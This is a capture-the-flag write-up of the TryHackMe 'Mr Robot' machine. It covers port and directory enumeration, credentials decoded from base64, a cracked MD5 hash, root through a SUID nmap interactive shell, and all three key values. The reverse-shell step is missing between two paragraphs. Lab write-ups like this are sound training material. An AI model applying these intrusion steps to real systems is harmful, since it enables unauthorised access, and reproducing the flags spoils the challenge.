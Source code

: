 # Mr Robot CTF
---

|Machine|Platform|Difficulty
|-|-|-
|Mr Robot CTF|TryHackMe|Medium (Not really)

**Challenge Description:** Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

# Approach

Initial Nmap scan for all open TCP ports:

```bash
haxor@debian:~$ sudo nmap -sS -Pn -n --min-rate 5000 --max-retries -p- --open 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:33 CDT
Warning: 10.10.70.206 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Nmap scan for all discovered open TCP ports enumerating their service's version and using basic Nmap reconnaissance scripts:

```bash
haxor@debian:~$ sudo nmap -sSCV -Pn -n -p80,443 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:36 CDT
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.78 seconds
```

The website exposed on port 80 looks like this, which appears to be an interactive terminal to navigate trough different functionalities:

![](image.png)

Wappalizer detected the website is a WordPress blog, interesting places like the **wp-admin** or **robots.txt** sections might be useful to enumerate, after playing around with the site and reviewing its source code, I tried access the **robots.txt** file and discovered the following:

![](image-1.png)

The first key is `073403c8a58a1f80d943455fb30724b9`. If we investigate the other resource listed on **robots.txt**, we will find what seems to be a wordlist:

![](image-2.png)

Either the wordlist contains a valid directory or credentials we can use for the admin panel, so I downloaded it:

```bash
haxor@debian:~/machines/mrRobot$ wget http://10.10.109.37/fsocity.dic > wordlist.txt
--2024-10-13 11:20:26--  http://10.10.109.37/fsocity.dic
Connecting to 10.10.109.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic         100%[===================>]   6.91M   895KB/s    in 9.1s    

2024-10-13 11:20:36 (776 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
```

I will enumerate first for sub-directories with the downloaded wordlist:

```bash
haxor@debian:~/machines/mrRobot$ gobuster dir -u http://10.10.109.37 -w fsocity.dic 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.109.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                fsocity.dic
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/13 11:56:06 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.109.37/images/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.109.37/css/]
/image                (Status: 301) [Size: 0] [--> http://10.10.109.37/image/]
/license              (Status: 200) [Size: 309]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.109.37/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.109.37/video/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.109.37/audio/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.109.37/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.109.37/blog/]
/intro                (Status: 200) [Size: 516314]
```

If we go and try to explote **license** directory, we will find the following line from the **Mr Robot** show:

![](image-7.png)

Analyzing the website's source code we see the following:

![](image-8.png)

There is a base64 encoded string that is not being shown apparently due to an overflow present on the "pre" HTML tag (taking a closer look to the string inside the tag will result in a very big string).

```bash
haxor@debian:~/Downloads$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

It seems we got a **user:password** string, since the challenge's website is a Wordpress blog, we can check if the output are indeed valid credentials:

![](image-9.png)
 
Entering the wrong password will result in Wordpress telling us that "elliot" is a valid user, so we can now try its password:

![](image-10.png)

And we are in! After exploring the blog management panel and finding nothing but another user (which hasn't been very useful), Wordpress contain multiple PHP scripts for various scenarios such as, what if a page doesn't exist

Exploring the machine with the obtained reverse shell we see the following on the **/home/robot** directory:

```bash
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
```

If we try to read the key txt file, we won't be able to do that since its permissions are:

```bash
daemon@linux:/home/robot$ ls -l 
ls -l 
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

But notice we can read password.raw-md5:

```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Crackstation can actually decrypt the hash, if we try that, we get the following results:

![](image-11.png)

Where the cracked hash turns out to be: `abcdefghijklmnopqrstuvwxyz`

However, we need to consider we won't be able to change our user using the cracked hash as reading the **/etc/passwd** and filtering for the **robot** user will throw the following:

```bash
daemon@linux:/home/robot$ cat /etc/passwd | grep robot
robot:x:1002:1002::/home/robot:
```

**robot** doesn't have an assigned shell, and we can't assign shells to users since it implies elevated privileges, so the final stept is to look for SUID or SGID to become root:

```bash
daemon@linux:/home/robot$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

All looks normal except for one binary: `/usr/local/bin/nmap` (usually there are a lot of SUID binaries present on a system, one advice is that you can ask ChatGPT to target suspect binaries or use your logic which I prefer the most).

Nmap is usually never found as SUID, and is a perfect SUID to become root as nmap has an --interactive mode to execute comands:

```bash 
nmap --interactive

nmap> ! whoami
root
```

since we are root, we can read all keys that are present on the system:

```bash 
nmap> ! cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959

nmap> ! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

With all of that done, the machine is compromised!


# Reflection

This machine is more like a ctf machine than anything else, it's a good one just for fun (and it is supposed to be comparable with EJPT machines). I wouldn't rate this one as a **Medium** machine, I'm writing this write up two years after I did this machine for the first time and still, I didn't need to read the write up like the first time. Even though I would rate this as a **very easy** machine, it's a good one to practice basic enumeration skills.